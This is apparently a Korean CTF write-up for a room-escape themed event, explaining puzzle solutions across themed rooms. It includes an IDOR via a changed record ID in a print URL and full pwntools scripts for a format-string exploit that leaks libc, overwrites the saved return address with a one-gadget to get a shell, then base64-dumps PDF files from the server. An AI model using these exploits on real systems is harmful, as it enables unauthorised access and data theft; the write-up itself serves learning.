

최옥순의 범죄 경력을 조회할 권한이 없다고 나오므로 다른 경로를 찾아야 합니다.

##### IDOR

사이드바의 최근 조회 기록을 보면 김도현의 기록에는 접근할 수 있습니다.



위 화면은 김도현의 범죄 경력을 상세 조회한 결과입니다. 오른쪽 위의 인쇄 미리보기를 누르면 인쇄용 화면을 확인할 수 있습니다.



이 `/print` 경로를 통해 최옥순의 범죄 경력을 확인할 수 있었습니다. URL의 조회 번호를 최옥순의 범죄 경력 조회 번호인 `CR-2026-F3A9`로 바꾸기만 하면 되는 간단한 IDOR 문제였습니다.



> SHA{CRIMINAL_RECORD_FOUND}

<details markdown="1">
<summary>힌트 1</summary>

최근 조회, 교육자료

</details>

<details markdown="1">
<summary>힌트 2</summary>

IDOR

</details>

<details markdown="1">
<summary>힌트 3(정답 url)</summary>

`http://web.roomescapectf2026.site:40535/records/CR-2026-F3A9/print`

</details>

힌트 3을 열람하더라도 하드코딩된 아이디와 비밀번호가 필요하므로 방 밖에서는 사이트에 접근할 수 없었습니다. 따라서 방에 들어가지 않고 플래그를 얻는 것은 불가능했습니다.

#### [수사 자료실-4] 신고 처리 내역서

문서에 따라 이동하면 신고 처리 내역서가 있으며, 각 문서 왼쪽 위에는 문자가 하나씩 있습니다.

문서를 페이지 번호순으로 정렬한 뒤 문자를 읽으면 플래그가 됩니다.

원래는 접수 번호를 기준으로 정렬하도록 만들었지만, 테스트 과정에서 규칙을 알아차리는 데 너무 오래 걸려 페이지 번호를 추가했습니다.

신고 처리 내역서에는 용의자 6명 중 한 명인 민재훈의 주취 소란 기록도 포함되어 있었습니다.



> SHA{SORT_THE_REPORTS}

<details markdown="1">
<summary>힌트 1</summary>

정렬

</details>

#### [수사 자료실-5] 참고인 증언

문서에 따라 증거품 테이블로 이동하면 기록 관리 시스템의 접속 정보가 네 조각으로 나뉘어 있습니다. 조각을 모아 수사팀에 전달한 뒤 문제를 해결해야 합니다.



기록 관리 시스템은 다음 세 기능으로 구성되어 있습니다.

1. 로그 작성
2. 지금까지 작성된 로그 출력
3. 나가기

로그에 `%p`를 입력해 출력하면 문자열이 그대로 나오지 않고 16진수 값이 출력됩니다. 이를 통해 FSB 취약점이 있음을 알 수 있습니다.

##### FSB

먼저 다음과 같은 문자열을 로그에 등록하고 출력합니다.

```
12345678|%1$p|%2$p|%3$p|%4$p|%5$p|%6$p|%7$p|%8$p|%9$p|%10$p|%11$p|%12$p|%13$p|%14$p|%15$p|%16$p|%17$p|%18$p|%19$p|%20$p|%21$p|%22$p|%24$p|%25$p
```



```
[2026-10-13 12:39:01] 12345678|0x7fffccb5e840|(nil)|(nil)|0x16|0x16|0x7f29180629e8|0x404060|(nil)|0x7f29180226a0|0x7fffccb61080|0x8f|0x2700000001|0xd0000000c|0x7e00000009|0x11d00000002|(nil)|(nil)|0x7f2917fea925|0x103ae75f6|0x2d30312d36323032|0x39333a3231203331|0x31303a|0x3837363534333231|0x32257c702431257c
```

스택 값을 출력한 결과, `%24$p` 위치에서 입력한 `12345678`에 해당하는 `0x3837363534333231`을 확인할 수 있습니다.

출력에는 PIE가 적용되지 않은 것으로 보이는 바이너리 주소 `0x404060`, `0x7ff`로 시작하는 스택 주소, `0x7f`로 시작하는 libc 주소 후보가 보입니다. 이 중 9번째 인자는 `%9$p`로 주소를 확인하고 `%9$.4s`로 해당 주소가 가리키는 앞 4바이트를 읽을 수 있습니다.

```python
from pwn import *

io=remote("127.0.0.1", 40588)

payload = b"%9$.4s"
io.sendlineafter(b"> ", b"1")
io.sendlineafter(b": ", payload)

io.sendlineafter(b"> ", b"2")
io.recvuntil(b"] ")
leaked=io.recvline().strip()

print(hex(u32(leaked)))
```



수상한 주소 `0x7f4705a076a0`이 가리키는 값은 `0xfbad`로 시작하는 FILE 구조체였습니다.

이 구조체가 어떤 스트림을 나타내는지는 `+0x70` 위치의 파일 디스크립터를 확인해 알 수 있습니다.

```python
from pwn import *

io=remote("127.0.0.1", 40588)

# FILE 구조체 주소 획득
payload = b"%9$p"
io.sendlineafter(b"> ", b"1")
io.sendlineafter(b": ", payload)

io.sendlineafter(b"> ", b"2")
io.recvuntil(b"] ")
address=io.recvline().strip().decode()

print(address)

# 주소 읽기
payload = b"%25$.4s\x00" + p64(int(address, 16)+0x70)
io.sendlineafter(b"> ", b"1")
io.sendlineafter(b": ", payload)

io.sendlineafter(b"> ", b"2")
io.recvuntil(b"] "); io.recvuntil(b"] ")
leaked=io.recvline().strip().decode()

print(leaked)
```



FILE 구조체의 descriptor 필드가 1이므로 stdout으로 특정할 수 있습니다. 이어서 주소의 하위 12비트를 이용해 libc 버전을 찾습니다. 여기서는 libc.rip을 사용했습니다.



이제 특정한 libc를 기준으로 익스플로잇을 구성할 수 있습니다.

##### one gadget

해당 libc를 내려받아 one-gadget의 위치를 확인합니다.



위에서 유출했던 stdout의 주소로부터 libc base를 계산한 후, FSB로 스택에 저장된 반환 주소(saved RIP)를 one-gadget 주소로 덮어쓰면 됩니다. 덮어쓸 대상은 `%10$` 위치에서 확인할 수 있습니다.

```python
from pwn import *

context.arch = "amd64"

io=remote("127.0.0.1", 40588)

# stdout 주소 획득
payload = b"%9$p"
io.sendlineafter(b"> ", b"1")
io.sendlineafter(b": ", payload)

io.sendlineafter(b"> ", b"2")
io.recvuntil(b"] ")
stdout=int(io.recvline().strip(), 16)

libc_base=stdout-0x1ed6a0
one_gadget=libc_base+0xe3b04

print("libc base:", hex(libc_base))
print("one gadget:", hex(one_gadget))

# print_log() 함수의 saved RBP 획득
payload = b"%10$p"
io.sendlineafter(b"> ", b"1")
io.sendlineafter(b": ", payload)

io.sendlineafter(b"> ", b"2")
io.recvuntil(b"] "); io.recvuntil(b"] ")
saved_rbp=int(io.recvline().strip(), 16)
saved_rip=saved_rbp+8

print("saved RIP:", hex(saved_rip))

# saved RIP을 one_gadget 주소로 덮어쓴다.
payload=fmtstr_payload(
    24,
    {saved_rip: p64(one_gadget)[:6]},
    write_size="short",
)

io.sendlineafter(b"> ", b"1")
io.sendlineafter(b": ", payload)

io.sendlineafter(b"> ", b"2")
io.interactive()
```





성공적으로 셸을 획득했습니다.

##### 파일 획득

플래그를 획득했다고 끝이 아닙니다. 방에 있던 문서에서는 여기서 참고인 진술조서를 수집하라고 언급했습니다.

`evidence`에 있는 PDF 파일을 얻으려면 위 익스플로잇 끝부분의 `io.interactive()`를 다음 코드로 교체합니다.

```python
# PDF 획득
io.sendline(
    b"echo __PDF_BEGIN__; "
    b"base64 /home/ctf/evidence/*.pdf; "
    b"echo __PDF_END__"
)
io.recvuntil(b"__PDF_BEGIN__\n")
encoded=io.recvuntil(b"__PDF_END__", drop=True)

with open("참고인 진술조서.pdf", "wb") as file:
    file.write(b64d(encoded))

print("PDF 저장 완료: 참고인 진술조서.pdf")
```





PDF를 획득해 내용을 확인하면 참고인 정혜진과 강도윤의 진술이 들어 있습니다.



> SHA{LISTEN_TO_THE_WITNESSES}

<details markdown="1">
<summary>힌트 1</summary>

FSB

</details>

<details markdown="1">
<summary>힌트 2</summary>

glibc 2.31

</details>

<details markdown="1">
<summary>힌트 3</summary>

````markdown
### 외주 작업 완료 보고
의뢰받은 참고인 진술조서 확보 작업을 완료했습니다.

의뢰 내용: 경찰서 기록 관리 서버에서 참고인 진술조서 확보
대상 자료: 참고인 진술조서.pdf
처리 결과: 서버 내부에서 참고인 진술조서 확보 완료
작업 비용: 70점

요청하신 대로 작업 방법에 대한 설명은 생략하고, 결과만 전달드립니다.

확보한 pdf 파일은 아래 링크에 업로드해 두었습니다.
```
<파일 드라이브 링크>
```

또한 서버 내에서 회수한 인증 문자열도 같이 전달드립니다.
```
SHA{LISTEN_TO_THE_WITNESSES}
```

다음에도 잘 부탁드립니다.
````

</details>

#### 획득할 수 있는 정보

[수사 자료실-1]부터 [수사 자료실-5]까지 획득할 수 있었던 사건 관련 주요 정보는 다음과 같습니다.

- [수사 자료실-2] : 용의자 6인의 신문조서
수사 보고서에서 자세히 다룰 예정입니다.
- [수사 자료실-3] : 용의자 최옥순의 범죄 경력(절도) 사실
- [수사 자료실-4] : 용의자 민재훈의 주취소란에 대한 신고처리내역서를 포함한 신고처리내역서 21매
- [수사 자료실-5] : 참고인 정혜진, 강도윤의 참고인 진술조서

[수사 자료실-5]를 제외한 나머지 정보는 모두 수사 공간 내에서 얻을 수 있는 정보이나, 방에서 해당 정보를 가지고 나오는 것은 불가능했기에 5개의 문제를 모두 해결한 팀에 아래와 같이 `★★★★★`에 `수사 자료실 내부 자료`라는 이름으로 2, 3, 4번 문제에서 얻을 수 있는 정보를 제공했습니다.





<span id="cyber-investigation-room"></span>

### 수사 장소 2 - 사이버수사대





수사 참고자료에는 사이버수사대에서 용의자들의 채팅 기록과 이용 사이트 기록을 확보하라고 적혀 있습니다.

방 관리자는 컴퓨터 또는 노트북 6대가 있는 영역만 조사하라고 먼저 안내합니다. 방에는 문서 두 장과 5자리 알파벳 자물쇠가 달린 상자 두 개가 있습니다.

#### [사이버수사대-1] 파일 관리 담당자

방에 있는 문서 중 하나는 사이버수사대의 업무 연락망입니다.



업무 안내에서 확인할 부분은 다음과 같이 강조되어 있습니다.

1. 사건 관련 파일은 사이버수사대 내부 보관함에 보관 중
2. 순번을 기준
3. 9월 근무표

1번은 자물쇠가 있는 상자를 뜻하고, 2번은 문제 풀이 방법을 설명한다고 추측할 수 있습니다.
따라서 3번에 적힌 9월 근무표를 먼저 찾아야 합니다.

지정된 영역의 컴퓨터와 노트북 6대 중 한 자리에는 다음과 같은 메모가 붙어 있습니다.



칠판에 적힌 비밀번호로 해당 컴퓨터를 켜면 다운로드 폴더에서 9월 근무표 파일을 찾을 수 있습니다. 파일의 내용은 다음과 같습니다.



근무표에는 업무 연락망에 있던 다섯 이름이 있습니다. 근무표에서 알파벳 다섯 개를 얻은 뒤 업무 연락망의 순번에 맞춰 정렬해야 함을 짐작할 수 있습니다.

9월 근무표에서 같은 이름이 있는 칸을 이으면 다음과 같은 결과가 나옵니다.



이를 알파벳으로 읽어 정렬하면 `REBYC`이 되며, 이 문자열로 상자를 열면 다음 카드를 얻을 수 있습니다.



참가자는 이 카드를 가져갈 수 있으며, 카드에는 [사이버수사대-1]의 플래그와 [사이버수사대-2] 문제 파일로 연결되는 QR 코드가 있습니다.

> SHA{RECOVER_THE_CHAT}

<details markdown="1">
<summary>힌트 1</summary>

9월 근무표에서 같은 이름을 찾아 연결

</details>

<details markdown="1">
<summary>힌트 2(정답)</summary>

REBYC

</details>

#### [사이버수사대-2] 채팅 복구

QR 코드에서 파일을 내려받으면 `decryptor`와 `chat_1.dat`~`chat_4.dat`가 있습니다. `./decryptor encrypted_data/chat_1.dat`처럼 실행해 파일을 하나씩 복호화할 수 있지만, `chat_1.dat`의 12번째 채팅에서 오류가 발생합니다.

